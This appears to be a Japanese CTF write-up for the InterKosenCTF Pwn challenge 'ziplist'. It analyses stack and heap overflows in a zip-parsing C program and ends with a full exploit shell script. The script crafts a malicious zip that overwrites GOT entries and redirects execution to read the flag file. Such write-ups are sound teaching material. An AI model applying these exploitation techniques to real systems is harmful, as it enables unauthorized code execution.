




// date: 2019-03-25

### はじめに

2019年の一月に、CTFチームの「NekoChanNano!」のメンバーとして[#InterKosenCTF](https://twitter.com/hashtag/InterKosenCTF) に参加させていただきました。今回は、経験少ないの私にとってかなり難しかった「ziplist」という問題(Pwn系、350点) の解き方を紹介していきたいと思います。

### 概要

チャレンジ・ページからソースコードをダウンロードすることが出来ます。手に入れる.tar.gzアーカイブファイルを解凍すれば、下記の二つのディレクトリが作られます。

`./server`、以下にflaskアプリケーションのソースコードとx86_64 ELFバイナリがあります。
`./src`、以下にx86_64 ELFバイナリのソースコード（C言語）が置いてあります。

flaskサーバーを起動し、[localhost:9300/](http://127.0.0.1:9300) をアクセスしてみましょう。



zipファイルをアップロード出来るようですね。バックエンドのソースコードを確認しましょう。

```python
@app.route('/', methods=['GET', 'POST'])
def home():
    result = ''
    if 'upload' in request.files:
        zipfile = request.files['upload']
        filename = zipfile.filename
        if filename != '':
            upload_filename = "/tmp/uploads/" + ''.join(
                [random.choice(string.ascii_letters) for i in range(16)]
            ) + ".zip"
            zipfile.save(upload_filename)
            result = commands.getoutput("timeout -sKILL 1s ./ziplist " + upload_filename)
            try:
                os.remove(upload_filename)
            except OSError:
                pass
    result = base64.b64encode(.result)
    return render_template('index.html', result=result)
```

ご覧通り、与えられるファイル　にランダムの名前が付けられて保存され、次に実行されるELFプログラムに引数として渡されます。
さて、ELFのソースコードの解析を始めましょう！

### ELFの解析

src/main.cのmain関数に脆弱性があります。ローカル変数のchar comment[64]がzip.cのzip_check_header()関数に渡され、zipのコメントのサイズに限らず書き込まれます。

```
char comment[64];

//...

// Check the zip structure
if (zip_check_header(fp, &footer, comment)) {
    puts("Invalid zip format.");
    return 1;
}
```

ですが、stack smashing protectionというセキュリティ機構が有効になっているため、スタック・フレームをそんな簡単に上書き出来ません。



セキュリティ機構について、詳しくは[こちらのページ](https://web.archive.org/web/20170306105226/http://pwn.hatenadiary.jp/entry/2015/12/05/195316)をご確認ください。

CTFの時、この機構を迂回する方法があるのがまだ知らなく、自分で気付けるまで数時間かかりましたが、実は\_\_stack_chk_fail関数のGOTポインターを上書きできるのです。そうすれば、main関数の終わりに書き込んだアドレスにジャンプするし、main関数内のRSP以降のスタック領域を好きに使えるようになります。

src/zip.cのzip_get_entries関数にもう一つの脆弱性があります。zipのfooterを読み込む前にmallocによってヒープ領域を確保します：

```
// Initialize
*entry = (CentralDirectoryFileHeader**)malloc(sizeof(CentralDirectoryFileHeader*) * footer->total_entries);
for(i = 0; i < footer->total_entries; i++) {
    (*entry)[i] = (CentralDirectoryFileHeader*)malloc(sizeof(CentralDirectoryFileHeader) - sizeof(char*));
    (*entry)[i]->filename = (char*)malloc(64);
}
```

メモリーを確保した後だけに、ZIPの中身のファイルの情報を取得して書き込むのです。

```
// Read all entries
for(i = 0; i < footer->total_entries; i++) {
    fread((*entry)[i], sizeof(CentralDirectoryFileHeader) - sizeof(char*), 1, fp);
    // Check signature
    if ((*entry)[i]->signature != MAGIC_CENTRAL_DIRECTORY_FILE_HEADER) {
        return 1;
    }
    // Read filename
    fread((*entry)[i]->filename, 1, (*entry)[i]->length_filename, fp);
    fseek(fp, (*entry)[i]->length_extra + (*entry)[i]->length_comment, SEEK_CUR);
}
```

そして上記に使用される CentralDirectoryFileHeader はこちらです：

```
typedef struct __attribute__((packed)) {
  uint32_t signature;
  uint16_t version;
  uint16_t version_needed;
  uint16_t flags;
  uint16_t compression_method;
  uint16_t modification_time;
  uint16_t modification_date;
  uint32_t crc32;
  uint32_t compressed_size;
  uint32_t uncompressed_size;
  uint16_t length_filename;
  uint16_t length_extra;
  uint16_t length_comment;
  uint16_t disk_start;
  uint16_t internal_attr;
  uint32_t external_attr;
  uint32_t header_offset;
  char *filename;
} CentralDirectoryFileHeader;
```

zipの中身にあるファイル数が２つ以上である場合、ヒープ領域がこういう形になるでしょう：

```
----------------------------------
[ Heap Frame ]                                   ---+
[ CentralDirectoryFileHeader (48 bytes) ]           |
// Including char *filename (8 bytes) at the end    |
[ Heap Frame ]                                      +-- １ファイル目
----------------------------------                  |
[ Heap Frame ]                                      |
[ File Name (64 bytes) ]                            |
[ Heap Frame ]                                   ---+
----------------------------------
[ Heap Frame ]                                   ---+
[ CentralDirectoryFileHeader (48 bytes) ]           |
// Including char *filename (8 bytes) at the end    |
[ Heap Frame ]                                      +-- ２ファイル目
----------------------------------                  |
[ Heap Frame ]                                      |
[ File Name (64 bytes) ]                            |
[ Heap Frame ]                                   ---+
----------------------------------

...
```

というわけで、第一ファイルの名前が64バイト以上であれば、その名前を保存するだめのメモリ範囲を超えてしまい、次のファイルの情報にオーバーフローします。もしその影響で次の CentralFileDirectoryHeader 仕組みの `char *filename` が上書きされるとなれば、次のファイル情報を書き込む際、新しいポインターを使用してしまい、任意書き込み脆弱性になります。

### いざエクスプロイト！

```bash
#!/bin/sh
rm -rf work/
mkdir work/
cd work/

# ASLRが有効されてるため、実行する際に標準関数system()のアドレスが毎度変わってしまうため狙えません。
# PWN_BINSH1="`python2 -c 'print "b"*126 + "\x20\x20\x60\xaa\xaa\xaa\xaa\xaa"+"c"*90+"cat \xbbhome\xbbpwn\xbbflag\xaa"'`" # freadのポインターを上書き
# PWN_BINSH2="`python2 -c 'print "\x80\x73\xe2\xf7\xff\x7f\xaa\xaa"'`" # system関数のアドレス

# 0x602030に存在するstack protectorポインターを再宣伝して、JOP gadgetに移動する。それからgadgetによって 0x400c8f にあるデータをRDIにコピーします。
PWN_STACKPROTECTOR1="`python2 -c 'print "a"*126 + "\x30\x20\x60\xaa\xaa\xaa\xaa\xaa"'`" # stack protector @ GOT
PWN_STACKPROTECTOR2="`python2 -c 'print "\x8f\x0c\x40\xaa\xaa\xaa\xaa\xaa"'`" # readfile()に存在する pop RDI -> pop ESI -> call perror

# perrorのGOTポインターを再宣言して、readfileの先頭アドレスへジャンプする。
PWN_PERROR_TO_READFILE1="`python2 -c 'print "b"*126 + "\x68\x20\x60\xaa\xaa\xaa\xaa\xaa"'`" # perror@GOT
PWN_PERROR_TO_READFILE2="`python2 -c 'print "\x53\x0c\x40\xaa\xaa\xaa\xaa\xaa"'`" # readfileの先頭アドレス

# readfile関数に渡す第一引数「data」をGOT領域に保存して置く。
PWN_STRING_AFTER_EXIT1="`python2 -c 'print "c"*126 + "\x78\x20\x60\xaa\xaa\xaa\xaa\xaa"'`" # exit@GOTの後
PWN_STRING_AFTER_EXIT2="`python2 -c 'print "\xbbhome\xbbpwn\xbbflag"'`" # readfileの第一引数

echo 'neko' > "$PWN_STACKPROTECTOR1"
echo 'chan' > "$PWN_STACKPROTECTOR2"
echo 'neko' > "$PWN_STRING_AFTER_EXIT1"
echo 'chan' > "$PWN_STRING_AFTER_EXIT2"
echo 'neko' > "$PWN_PERROR_TO_READFILE1"
echo 'chan' > "$PWN_PERROR_TO_READFILE2"
echo 'nekochannano' > nekochannano

# main関数のローカル変数 char *comment[64] に書き込まれるZIPコメントにGOT領域に保存して置いた文字列のポインターを入れて置きます。
python2 -c 'print "難し過ぎるわ" + "ABCDEFGHIJKLMNOPQRSTUVWXYZ"*2 + "AB\x78\x20\x60\xaa\xaa\xaa\xaa\xaaA"' | zip -z winners.zip \
"$PWN_STACKPROTECTOR1" \
"$PWN_STACKPROTECTOR2" \
"$PWN_PERROR_TO_READFILE1" \
"$PWN_PERROR_TO_READFILE2" \
"$PWN_STRING_AFTER_EXIT1" \
"$PWN_STRING_AFTER_EXIT2" \
nekochannano \‌

# sedでzipコマンドで使えないヌール文字を変換します。
sed -i -s 's/\xaa/\x00/g' winners.zip
sed -i -s 's/\xbb/\//g' winners.zip
```

### 結果

最後に、生成したzipアーカイブをウェブサーバーにアップロードすると、、！





以上 [#InterKosenCTF](https://twitter.com/hashtag/InterKosenCTF) の Pwn問題「ziplist」の解答方法でした。
